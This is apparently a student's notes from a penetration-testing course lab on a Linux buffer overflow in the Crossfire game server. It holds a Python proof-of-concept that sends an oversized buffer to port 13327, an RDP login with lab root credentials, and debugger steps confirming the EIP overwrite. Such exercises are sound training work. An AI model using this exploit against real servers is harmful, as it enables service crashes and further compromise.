 12.2.1.2

# 12.2.1.2
## 12.2.1.2.1. Log in to your dedicated Linux client using the credentials you received.
Revert the machine then log on
```plaintext
kali@kali:~$ rdesktop 192.168.214.44 -u root -p lab
Autoselecting keyboard map 'en-us' from locale
Connection established using plain RDP.
Sound(warning): rdpsnd_process_packet(), Unhandled opcode 0x27
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
```
![db4719976fff86e451da3fee0f2151c1.png](:/338337bc2a3a4ed7915c290045b69e59)


## 12.2.1.2.2. On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 1_poc.py 
#!/usr/bin/python                                                       
import socket                                                           
                                                                         
host = "192.168.214.44"                                                  
                                                                         
crash = "\x41" * 4379                                                    
                                                                         
buffer = "\x11(setup sound " + crash + "\x90\x00#"                          
                                                                            
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                       
print "[*]Sending evil buffer..."                                           
                                                                               
s.connect((host, 13327))                                                       
print s.recv(1024)                                                             
                                                                                 
s.send(buffer)
s.close()

print "[*]Payload Sent !"
```


## 12.2.1.2.3. Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.

Run Crossfire
![2c7c4a001001a6fe415097a68aff9bf1.png](:/8f03296ed1034fa1852c10bc4f7f22df)

Run edb
![f9d166d279986e79bc299004c417900b.png](:/0f5e217aaf88493eb6810e12e99fe3b2)

Find crossfire's PID and attach to process. In this example it is PID 2103.
![91d10356343c79fd49599b5d97952407.png](:/b0e775ecee3e4252953fa67ed733f26b)

The program is paused when initially attached.
![99bbb8e90686bf64e6c4aa1a433f6c6d.png](:/55800a8e52ff474a9b8b0b30f6a98490)

Unpaused it by pressing F9
![1729099c396f871ae31a62f4b267dbc3.png](:/a8d5e3e37bc7466f9c32ef8a82c038b6)

Run the proof-of-concept code
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 1_poc.py                                                                       
[*]Sending evil buffer...                                               
#                                                                       
[*]Payload Sent ! 
```

Crossfire crashes
![b635cfe32b718ecefcfc03ae7bb779ed.png](:/1c82a5c2446b4140bed968d772f0d186)

We find that EIP is overwritten by our buffer of A's
![c9c430bbe8eff48e554186c231ee423f.png](:/19346b9344ca44e2b7b1e32771ebf7e8)

id: efc7c2253d8b4ea9bd7ae8b1e66d5152
parent_id: eb4c60d98986411488729b9db9def111
created_time: 2020-10-02T21:43:41.971Z
updated_time: 2020-10-02T21:43:43.606Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:43:41.971Z
user_updated_time: 2020-10-02T21:43:43.606Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1